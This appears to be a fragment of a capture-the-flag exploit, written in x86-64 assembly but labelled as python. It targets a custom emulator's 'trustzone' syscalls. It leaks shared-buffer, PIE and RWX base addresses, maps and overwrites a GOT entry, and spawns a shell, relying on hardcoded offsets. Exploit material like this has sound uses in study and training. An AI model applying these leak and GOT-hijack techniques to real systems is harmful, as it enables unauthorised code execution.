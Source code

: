 ```python
    lea rsi, [rip+load_rce]
    lea rcx, [rip+load_rce_end]
    sub rcx, rsi
    rep movsb
    /* invoke trustzone -- r10 = rwx r11 = pie */
    mov rax, 10
    int 0x80

    /* map got to rce code */
    add r11, 0x120c050 # got address for write
    mov rdi, 0x4000
    lea rsi, [rip+load_got]
    lea rcx, [rip+load_got_end]
    sub rcx, rsi
    rep movsb
    /* invoke trustzone that maps 0x8000 to got of write so that we can access it in emulator vspace */
    mov rax, 10
    int 0x80

    /* Spawn shell  */
    mov rbx, 0x8000
    mov rcx, 0x1
    mov rax, 0x1
    int 0x80

    mov rax, 0x6
    int 0x80

    leak_shared:
        /* Call validate_handle 0 */
        xor rbx, rbx
        xor rcx, rcx
        mov rax, 4
        int 0x80
        mov r12, rax # store leaked value at r12
        /* Print leak for debugging purposes */
        mov rbx, rax
        mov rax, 0x2
        int 0x80
    leak_shared_end:
    leak_pie_rwx:
        /* Call map_address */
        mov rbx, 0x5000
        mov rcx, 0x2000
        mov rdx, r12 # r12 is shared_buffers[0]
        sub rdx, 0x12bf0 # map to the base of area instead of to the shared_buffers[0]
        mov rax, 5
        int 0x80
        /* Store leaked pie at r11 and leaked rwx at r10 */
        mov rbx, 0x5000
        add rbx, 0x1100
        mov r11, qword ptr [rbx]
        sub r11, 0x785b20 # r11 = PIE BASE
        mov rbx, 0x5000
        add rbx, 0x0b88
        mov r10, qword ptr [rbx]
        sub r10, 0x1c2f # r10 = RWX BASE
        /* Print for debugging purposes */
        mov rbx, r11
        mov rax, 0x2
        int 0x80
        mov rbx, r10
```